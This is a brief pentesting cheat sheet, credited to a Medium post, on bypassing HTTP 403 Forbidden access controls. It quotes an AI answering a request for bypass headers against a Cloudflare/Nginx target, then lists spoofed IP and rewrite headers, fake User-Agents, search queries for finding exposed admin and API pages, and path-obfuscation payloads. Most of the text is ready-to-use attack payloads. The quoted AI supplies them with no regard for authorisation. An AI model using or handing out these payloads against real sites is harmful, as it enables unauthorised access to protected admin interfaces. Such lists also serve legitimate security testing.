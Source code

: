 
#_404

By: https://it4chis3c.medium.com/how-ai-helped-me-to-bypass-403-forbidden-06becd32b999

**Prompt:** “Give me a list of headers to bypass 403 Forbidden responses. Target is using Cloudflare and Nginx.”

**Response:**

```http
X-Forwarded-For: 127.0.0.1  or Forwarded: for=127.0.0.1 
X-Originating-IP: 127.0.0.1  or X-Original-URL: /admin
X-Rewrite-URL: /admin
X-Remote-IP: 127.0.0.1  
X-Client-IP: 127.0.0.1  
X-Host: target.com  or X-Host: internal
X-Original-URL: /api/admin-panel/config
```

> _**Some more Examples:**_ _`User-Agent: Googlebot`_ _`User-Agent: curl/7.64.1`_ _`User-Agent: InternalScanner/1.0`_

#### **1. Find 403 Pages on Common Paths (Admin Panels, APIs, etc.)**

```bash
header="403" && (title="Forbidden" || title="Access Denied") && (body="/admin" || body="/api" || body="/wp-admin")
```

#### **2. Find 403 Pages with Potential Misconfigurations**


```bash
header="403" && (server="nginx" || server="apache") && (body="index of" || body="directory listing denied")
```

_(Looks for 403s that might reveal directory listing attempts.)_

### 1. 🛣️ Path Obfuscation & Normalization Confusion

Servers and apps parse paths differently. You can often "trick" the routing layer by slightly modifying the URL.

```
/admin
/admin/
/admin/.
/admin/..;/
/%2e/admin
/admin%2f
/admin;/
/admin?
/admin#
/ADMIN
/Admin
/admin%2F
/%2e/admin
/%252e/admin
/admin%00
etc...
```
